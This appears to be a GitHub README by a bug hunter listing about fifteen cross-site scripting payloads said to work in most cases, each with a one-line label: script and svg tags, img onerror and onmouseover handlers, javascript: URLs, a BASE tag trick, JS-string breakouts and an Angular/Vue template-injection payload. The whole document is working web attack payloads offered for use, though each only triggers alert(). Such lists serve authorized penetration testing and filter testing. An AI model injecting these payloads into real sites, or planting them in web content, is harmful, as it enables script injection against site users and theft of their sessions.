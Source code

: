 <h1> 🚀Most Common Working Payloads </h1>
<a href="https://discord.com/"><img src="https://img.shields.io/badge/Discord-Kira%20Reys%232749-blue?style=plastic&logo=discord.svg" /> </a>
<a href="https://instagram.com/kira.reys"><img src="https://img.shields.io/badge/Instagram-Kira%20Reys-purple?style=plastic&logo=instagram"/> </a>
<h2> This is list of XSS Payloads that worked in most cases for me </h2>

``` "><svg/onload=alert(1)>``` - Length bypass Svg Payload </br>
``` "><script>alert(1)</script>``` - Basic XSS Payload with script tag </br>
``` <div onmouseover="alert(document.domain);">``` - Onmouseover XSS Payload </br>
``` <IMG SRC="javascript:alert('XSS');">``` - Image XSS Directive Payload </br>
``` </style><script>a=eval;b=alert;a(b(/XSS/.source));</script>``` - Style Special Combination </br>
``` "><img src=x onerror=alert(1)>``` - Typical Image XSS Payload </br>
``` {{constructor.constructor(`alert(1)`)()}}``` - This is technically CSTI, but it is escalated to XSS for better Impact. It works mostly on Angular/Vue Applications. You can explore more about Template Injections on Internet </br>
``` <BODY onload=alert(1)>``` - Body Payload </br>
``` <BASE HREF="javascript:alert('XSS');//">``` - XSS with Base Tag </br>
``` &apos;-alert(1)-&apos;``` - Injecting alert inside HTML tag + HTML Encoding </br>
``` <IMG SRC=javascript:alert(&quot;XSS&quot;)>``` - Image Payload with HTML Entities </br>
```'-alert(1)-'```
```\';alert(document.domain)//``` - Inject Alert inside JS String </br>
```javascript:alert(1)``` - Works in many ways and combination, also can help escalating Open Redirect to XSS </br>
```http://www.<script>alert(1)</script .com```

<h2>by Kira Reys </h2>
<p> XSS is really common vulnerability nowadays on web. This was list of some Payloads that worked in most cases for me. Thank you for your attention! ✨</p>
